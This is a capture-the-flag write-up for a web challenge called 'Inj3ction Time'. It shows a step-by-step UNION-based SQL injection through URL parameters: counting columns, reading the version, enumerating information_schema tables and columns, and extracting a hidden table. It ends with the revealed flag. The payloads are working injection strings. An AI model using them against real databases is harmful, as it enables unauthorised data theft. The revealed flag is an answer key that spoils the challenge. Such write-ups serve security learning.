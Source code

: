 # Inj3ction Time - Web

![Title](images/title.png)

## Initial Thoughts

* sqli

# Walkthrough

Navigating to the website and testing some stuff we can start guessing the number of columns using

```
https://web.ctflearn.com/web8/?id=1%20UNION%20SELECT%201,2,3,4--
```

It gives us a valid output so we know there are 4 columns

Lets try changing a number to display the version

```
https://web.ctflearn.com/web8/?id=1%20UNION%20SELECT%201,version(),3,4--
```

It works! Now we have the version. Lets try and dump tables from information_schema

```
https://web.ctflearn.com/web8/?id=1%20UNION%20SELECT%20table_schema, table_name,3,4 from information_schema.tables--
```

Scroll down and we find something interesting

![sqli](images/sqli.png)

Lets pop the column name

```
https://web.ctflearn.com/web8/?id=1%20UNION%20SELECT%20column_name, table_name,3,4 from information_schema.columns--
```

Now we can concat the column and hopefully get the flag

```
https://web.ctflearn.com/web8/?id=1%20AND%201=2%20union%20select%20concat(f0und_m3),2,3,4%20from%20w0w_y0u_f0und_m3--
```

<details>
	<summary>Flag</summary>

abctf{uni0n_1s_4_gr34t_c0mm4nd}
</details>